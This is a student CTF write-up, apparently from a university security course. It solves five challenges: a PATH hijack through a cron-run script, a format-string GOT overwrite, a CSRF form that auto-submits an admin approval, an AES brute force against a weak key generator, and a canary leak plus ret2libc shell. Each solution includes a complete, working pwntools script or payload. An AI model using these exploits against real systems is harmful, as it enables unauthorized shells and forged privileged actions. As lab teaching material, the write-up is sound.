



# CTF extra

## British Ponctuality

> First we started by listing the content of the `home/flag_reader` directory and we noticed a script.

```bash
nobody@caea6090734d:/home/flag_reader$ ls
main.c  my_script.sh  reader
nobody@caea6090734d:/home/flag_reader$ cat my_script.sh
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

> We noticed that it was using printenv without a path so by changing the path we could exploit this to run our own version of printenv.
>
> Because our script was using /tmp/env to load the environment we created that file to change the $PATH variable.

```bash
nobody@caea6090734d:/tmp$ ls
env last_log 
nobody@caea6090734d:/tmp$ cat env
export PATH=/tmp/:$PATH
```

> Now at /tmp we created a printenv file that was the one that the script will then execute instead of the normal printenv.

```bash
nobody@caea6090734d:/tmp$ echo "cat ../flags/flag.txt" > printenv
```

> When we ran the script with this configuration we still didn't have permissions to access the flag but we noticed that the server was running `cron` to periodically run the script and this `cron` had the permissions to access the flags/flag.txt file.
>
> So after creating our version of printenv we just waited and then in the last_log file there it was the flag.

## FinalFormat

> For this challenge, the backdoor had been removed. But using gdb we were able to see that it was still there

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
...
0x08049236  old_backdoor
...
```

> So our idea was to try to change the flow of the program so that it would jump to the old_backdoor function and therefore access the flag.
>
> We then run `checksec` on the program to see what type of protection it had and we saw that writing in the stack like in the other challenges would be impossible because NX was enabled.

```bash
 /home/seed/Downloads/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

> We then used gdb to find instructions that would use call and jump to another address.
>
> We found a jump in `0x0804c010` so we now needed to change the old_backdoor function address to be at this location so that the code would run the backdoor function to then a shell be launched.
>
>Using format string vulnerabilities we created this exploit where we write the address of the backdoor `0x08049236` into the `0x0804c010` position in memory so that when the jump to this is called the program will jump to the backdoor function and execute it allowing for a shell to be launched.

```py
from pwn import *

LOCAL = False

if LOCAL:
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4007)

#0x08049236  old_backdoor

N = 60
content = bytearray(0x0 for i in range(N))

content[0:4]  =  ("....").to_bytes(4, byteorder='little')
content[4:8]  =  (0x0804c012).to_bytes(4, byteorder='little')
content[8:12]  =  ("....").encode('latin-1')
content[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')

s = "%.2036x" + "%hn" + "%.35378x%hn"

fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

p.recvuntil(b"here...")
p.sendline(content)
p.interactive()
```

> We had to arrange a different way of writing `0x08049236` because using the normal way of `%nrofcharsx%1$n` would take a lot of time because `0x08049236` is 134517302 in decimal. So we used `%hn` to write into 2 bytes instead of 4. Therefore we would need to write `0x0804` to  `0x0804c010` and `0x9236` to  `0x0804c012`. We also use `....` as placeholder because `%x` performs a jump in the stack and therefore we would loose important content.
>
> The value 2036 appears because `0x0804` = 2052 but we have 16 bytes already written to the content. The value 35378 appears because `0x9236` = 37430 but we have already written 2052 bytes.
>
> After running this python file a shell was launched and to get the flag we just executed :

```bash
cat flag.txt
```

## Apply For Flag II

> So in this challenge the XSS possibility was removed because now the admin would go to another page to validate our justification so we couldn´t do an XSS attack like in the week 10 challenge 1 ctf.
>
> We first started by analysing the website and we noticed that in the page there was now an id for the request that our justification will use. We assumed that this was going to be important to falsificate an approve request.
>
> We then went to see the font code of the new page that the admin would use and we noticed that the give the flag button was connected to a post method to "/request/&{requestid}/approve". So we would need to get the admin to go to this page to approve our request and give the flag.
>
> 
>
> So we find that we would need to realize an CSRF(Cross-site request forgery) to lead the admin to go this page.
>
> To achieve this we would need to create a button live the "give the flag" button but in the page where our justifcation go and there with javascript make the admin click that button like we did in week10 challenge 1 ctf.
> We send this as our justification:

```html
<form id="form" method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/42fb836522c872ec8986ce0c9aecfa3394b94b61/approve" role="form"><div class="submit"><input type="submit" id="giveflag" value="Give the flag"> </div> </form><script>document.getElementById('giveflag').click()</script>
```

> We used the id request that was given for us in the page and then when we submitted this and we were redirected to a forbidden page warning so we thought that we did something wrong.
>
> 
>
> This was logical because us, as normal users, were not able to go to this page and when we were redirected to this page by the form we would be blocked. But we knew that the admin would have permissions to go to this page so we would need to disabled the javascript in our page so we wouldn't click on the give the flag button but the admin would have the javascript running and therefore would click on the button and given us the flag.
>
> We used uBlockOrigin extension to disable javascript on our browser and then refreshed the page and there it was the flag.
>
> 
>
> 

## Number Station 3

> So in this challenge we were presented with some functions related to encryption and decryption using the Advanced Encryption Standard (AES) algorithm.
>
> Our goal was to decrypt a message that was encrypted with this algorithm.
>
> After analyzing the 3 functions we understood what they did:
>
> gen(): This method creates a bytearray object based on a random 16-byte string produced by the os.urandom function, which will be used to construct a random 16-byte binary key. Afterward, iterating over the array of bytes, it sets each byte to the bitwise AND of the initial value and 1 and then returns the bytearray.

```python
def gen(): 
	rkey = bytearray(os.urandom(16))
	for i in range(16): rkey[i] = rkey[i] & 1
	return bytes(rkey)
```

> enc(): This function takes a key and a message as inputs and returns the message encrypted using the key and the AES algorithm in Electronic Codebook (ECB) mode. The key and the AES algorithm are used to generate a Cipher object, which is subsequently used to build an encryptor object. The message is then encrypted one character at a time using the update method of the encryptor object. Finally, it invokes the finish function of the encryptor object to return the encrypted message.

```python
def enc(k, m):
	cipher = Cipher(algorithms.AES(k), modes.ECB())
	encryptor = cipher.encryptor()
	cph = b""
	for ch in m:
		cph += encryptor.update((ch*16).encode())
	cph += encryptor.finalize()
	return cph
```

> dec(): This function takes a key and an encrypted message as inputs and returns the decrypted message. It initially verifies that the encrypted message's length is a multiple of 16. (the block size of the AES algorithm). After that, it uses the key and the AES algorithm to build a Cipher object, after which it uses the Cipher object to construct a decryptor object. The encrypted message is then iterated through in blocks of 16 bytes, with each block being decrypted using the update method of the decryptor object. Finally, it invokes the decryptor object's finalize function to return the message that has been decrypted. 

```python
def dec(k, c):
	assert len(c) % 16 == 0
	cipher = Cipher(algorithms.AES(k), modes.ECB())
	decryptor = cipher.decryptor()
	blocks = len(c)//16
	msg = b""
	for i in range(0,(blocks)):
		msg+=decryptor.update(c[i*16:(i+1)*16])
		msg=msg[:-15]
	msg += decryptor.finalize()
	return msg
```

> To decrypt the message we only need to discover the k that was used to encrypt the message. In theory, this would be very difficult because with 16 bytes key it should lead to 2^128 possibilites which is very high to brute force. However when we analyze the code of gen() we know that the key is generated as a 16 bit one because each byte can only be 0 or 1 so the possibilites are only 2^16 which is very easy to brute force.
>
> With this in mind we created a python program that would iterate through all possible numbers and transform them into bytearray of 16 bytes and try to decrypt the message with that. We knew that the correct decrypted message would have "flag" in there so:

```python
c=b'bad11e965230f95179959f44ed4a5acea5d269ac2f00e74707d3a88865df05ad29b5e62cb7a8d313dc7a1e31ba96770a8f4c48484ad7653c48d07f283dac5ef6c8a1173c3741469656e8ab4eca6aadbd6eef87f777fdd889eacdbbaefb720ec28b45adb5868015815b05e37f5fb5d7fe6eef87f777fdd889eacdbbaefb720ec2ac11cc92629b69b0614931c9add007a59b8363d6b92148f197b9938cd7effd04178a2a519f09d799fc1b23bd4afb90bd4b89640e274971a3ad0f4516fdd5231bac11cc92629b69b0614931c9add007a5efed77c652bede2a4428cd602ca00427ac11cc92629b69b0614931c9add007a58583235c834f8e4423a78e99e3985ade9b8363d6b92148f197b9938cd7effd04178a2a519f09d799fc1b23bd4afb90bd8b65375d3570c9eb334b2bc48bbe06e729b5e62cb7a8d313dc7a1e31ba96770a29b5e62cb7a8d313dc7a1e31ba96770a29b5e62cb7a8d313dc7a1e31ba96770a9d0c31394b9e2636144dafc554e623ab29b5e62cb7a8d313dc7a1e31ba96770a178a2a519f09d799fc1b23bd4afb90bd9d0c31394b9e2636144dafc554e623ab7786e9850eddbeebbc0d6239d0c9497b6eef87f777fdd889eacdbbaefb720ec226b00111103d07531431621a86089a42d788b01fbbd0b087e758ae7cbcb09887bad11e965230f95179959f44ed4a5acebad11e965230f95179959f44ed4a5aceac11cc92629b69b0614931c9add007a56eef87f777fdd889eacdbbaefb720ec2c569d016bd92ed9a536c45049450b2289d0c31394b9e2636144dafc554e623ab7786e9850eddbeebbc0d6239d0c9497b9d584baa51918a0029dae1639cdedc53a1cec2c59ce7dd92dea9cd55ac29867f'

for i in range(2 ** 16):
    binary_string = bin(i)[2:]  # take the 0b
    binary_string = binary_string.zfill(16)  # make length 16
    binary_array = [int(ch) for ch in binary_string]  # convert chars in integers
    byte_array = bytearray(binary_array)
    msg = dec(byte_array, unhexlify(c))
    if b'flag' in msg:
        print(i)
        print(msg)
        break
```

> We run this program and we got the flag wiht k=32672 :

```bash
tiagobarbosa05@MacBook-Pro-de-Tiago-2 Downloads % python3 challenge.py
32672
b'flag{e5ec82bc1c3824aaa7a276ed9ffce076}\n'
```

## Echo

> We were once more handed a binary executable for this task. This straightforward program requests for input frequently. We further examined it and found a string format vulnerability that we might take advantage of. As a result, we were able to analyze the stack by using %x.
>
> However, after reviewing the security protections in place, we determined that performing a typical buffer overflow attack would be impossible since the stack had DEP protection.We thus considered it logical to attempt to employ ROP to exploit the software.
>
```shell
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

> The plan was to obtain a shell by having the software execute "system" with the shell parameter. We would require the following for this to succeed:

- The base address for "libc."
- The libc's "system" and "/bin/sh" addresses.
- Discover a means to get past the canary protection.

> We require the base address of libc in order to access its functions. This work becomes a little more difficult since the address space is randomized. However, we may use the program's ability to accept many inputs to our advantage in order to gather data.
>
> We anticipate the ESP to maintain a relative position to other components of the stack, especially the libc base address, despite the fact that the address space is random. In this manner, we determined the offset for a program execution and utilized that number to arrive at the real libc location.
>
> We took the following actions to obtain the system function address:

```bash
$ objdump -T libc.so.6 | grep "system"
00163690 g    DF .text	0000006a (GLIBC_2.0)  svcerr_systemerr
00048150  w   DF .text	0000003f  GLIBC_2.0   system
00048150 g    DF .text	0000003f  GLIBC_PRIVATE __libc_system
```

> Afterward, to obtain '/bin/sh' on libc:

```bash
$ strings -a -t x libc.so.6 | grep "/bin/sh"
 1bd0f5 /bin/sh
```

> As a result, we now know that system and the shell have offsets of 0x48150 and 0x1bd0f5, respectively.
>
> We are aware that the program's stack is secured by a canary thanks to "checksec". We are aware that the canary will be in position 8 on the stack thanks to the previous stack analysis. Therefore, all that is required of us is to include it in the payload and leak it using the format vulnerability.

> After calculating all of these numbers, we developed the following attack to obtain the flag: 

```py
#!/usr/bin/python3
from pwn import *
  
p = remote("ctf-fsi.fe.up.pt", 4002)

libc_offset = 136473

system_offset = 0x00048150
shell_offset = 0x1bd0f5

def send(p, msg):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"chars): ")
	p.sendline(msg)
	line = p.recvline()
	p.recvuntil(b"message: ")
	p.sendline(b"")
	return line
	
values = send(p, b"%8$x %11$x") 

canary, ref = [int(x, 16) for x in values.split()]

libc = ref - libc_offset   #get base libc
system = libc + system_offset
shell = libc + shell_offset

content = bytearray(0x90 for i in range(80))
content[20:24]  =  (canary + 1).to_bytes(4, byteorder='little')
content[32:36]  =  (system).to_bytes(4, byteorder='little')
content[40:44]  =  (shell).to_bytes(4, byteorder='little')

send(p, content)

content = bytearray(0x90 for i in range(19))
send(p, content)

p.interactive()
```

> After this we got access to a shell and successfully got the flag.
